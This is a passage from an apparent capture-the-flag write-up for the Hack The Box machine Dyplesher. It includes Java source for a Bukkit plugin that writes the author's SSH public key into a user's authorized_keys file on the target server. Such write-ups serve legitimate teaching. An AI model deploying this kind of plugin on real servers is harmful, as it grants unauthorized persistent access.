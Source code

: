 The console displays the messages from the server.

![](/assets/images/htb-writeup-dyplesher/image-20200524113905691.png)

Looks like we'll have to create a plugin to get access to the server. We can follow the following blog post instructions on how to create a plugin with Java: [https://bukkit.gamepedia.com/Plugin_Tutorial](https://bukkit.gamepedia.com/Plugin_Tutorial)

After trying a couple of different payloads I wasn't able to get anything to connect back to me so I assumed there was a firewall configured to block outbound connections. So instead I used the following to write my SSH keys to MinatoTW home directory:

```java
package pwn.snowscan.plugin;

import java.io.*;
import org.bukkit.*;
import org.bukkit.plugin.java.JavaPlugin;
import java.util.logging.Logger;

public class main extends JavaPlugin {

    @Override
    public void onEnable() {    	
    	Bukkit.getServer().getLogger().info("XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX");
    	try {
		    FileWriter myWriter = new FileWriter("/home/MinatoTW/.ssh/authorized_keys");
		    myWriter.write("ssh-rsa AAAAB3NzaC1yc2EAAA[...]JsSkunC1TzjHyY70NfMskJViGcs= snowscan@kali");
		    myWriter.close();
		    Bukkit.getServer().getLogger().info("Successfully wrote to the file.");
		} catch (IOException e) {
			Bukkit.getServer().getLogger().info("An error occurred.");
		    e.printStackTrace();
		}
    	Bukkit.getServer().getLogger().info("YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY");
    }
    
    @Override
    public void onDisable() {
    	
```